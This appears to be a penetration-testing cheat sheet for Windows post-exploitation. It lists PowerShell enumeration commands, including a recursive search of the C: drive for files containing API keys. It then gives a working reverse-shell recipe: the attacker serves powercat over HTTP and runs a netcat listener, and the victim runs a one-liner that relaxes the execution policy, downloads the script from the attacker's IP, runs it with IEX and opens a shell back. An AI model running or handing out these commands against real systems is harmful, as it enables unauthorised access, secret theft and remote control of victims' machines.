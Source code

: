 # Enumeration

The first step when you have gained initial access to any machine would be to enumerate. We'll be enumerating the following:
- users:
```
  - Get-LocalUser
  - (Get-LocalUser).Name
  - (Get-LocalUser).Name.Count
  - Get-LocalUser -SID "sid_value"
  - Get-LocalUser | Where-Object -Property PasswordRequired -Match false
  - Get-LocalGroup | measure
```
- basic networking information:
```
  - Get-NetIPAddress
  - Get-NetTCPConnection | Where-Object -Property State -Match Listen | measure
  - get-nettcpconnection | where {$_.state -eq "listen" -and $_.localport -eq 445}
  - Get-NetRoute
  - Get-NetAdapter -Name * -IncludeHidden
  - Get-NetAdapter -Name * -Physical
```
- file permissions:
```
  - Get-ChildItem -Path C:\ -Include *.bak* -File -Recurse -ErrorAction SilentlyContinue
  - Get-ChildItem C:\* -Recurse | Select-String -pattern API_KEY
  - Get-Acl C:\ | Format-List
  - Get-ChildItem C:\ -Recurse | Get-Acl | Select-Object PSChildName, AccessToString | Format-List
```
- registry permissions:
```
  - Get-Acl "HKLM:\Software" | Format-List
  - Get-Hotfix
  - Get-Hotfix -Id KB4023834
```
- scheduled and running tasks:
```
  - Get-Process
  - Get-ScheduledTask -TaskName * | Format-List
  - Get-ScheduledTask | Where-Object {$_.State -eq "Running"}
  - get-scheduledtask | where {$_.taskname -eq "new-sched-task"}
```
- insecure files:
```
  - Get-ChildItem -Recurse C:\ | Get-Acl | Where-Object {($_.AccessToString -match "Everyone") -and ($_.AccessToString -match "FullControl")}
```
 
# Reverse Shell

Attacker's Machine:
```
- git clone https://github.com/besimorhino/powercat && cd powercat
- python3 -m http.server 8080
- nc -lvnp 1337
```
Victim's Machine:
- Execution Policy:
```
  - Get-ExecutionPolicy
  - Set-ExecutionPolicy -Scope CurrentUser RemoteSigned
```
- Download and execute payload:
```
  - IEX(New-Object System.Net.WebClient).DownloadString('http://[Attacker's IP]:8080/powercat.ps1'); powercat -c [Attacker's IP] -p 1337 -ep
```

